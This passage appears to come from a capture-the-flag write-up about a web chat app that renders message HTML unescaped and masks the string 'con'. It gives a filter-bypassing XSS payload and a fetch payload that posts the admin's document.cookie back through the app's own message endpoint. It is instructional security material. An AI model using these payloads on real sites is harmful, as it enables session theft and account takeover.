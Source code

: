 <img alt="whatsup" src="img/whatsup/2.png">

Interesting, the message html is rendered as-is, but it looks like all
occurrences of `con` are replaced with `***`, which is why we can not use
`console`. Well, let us make a quick workaround then:

```html
<img src="_" onerror="window['c' + 'onsole'].log('XSS')">
```

This works like a charm, and we will now try to upload a more useful XSS payload
and send the following js code to *admin*:

```js
fetch(
    "/send_it",
    {
        headers: {["c" + "ontent-type"]: "application/x-www-form-urlencoded"},
        body: "id=3416&c" + "ontent=" + encodeURIComponent(
            "cookie: " + document.cookie
        ),
        method: "POST",
        mode: "cors",
        credentials: "include"
    }
)
```
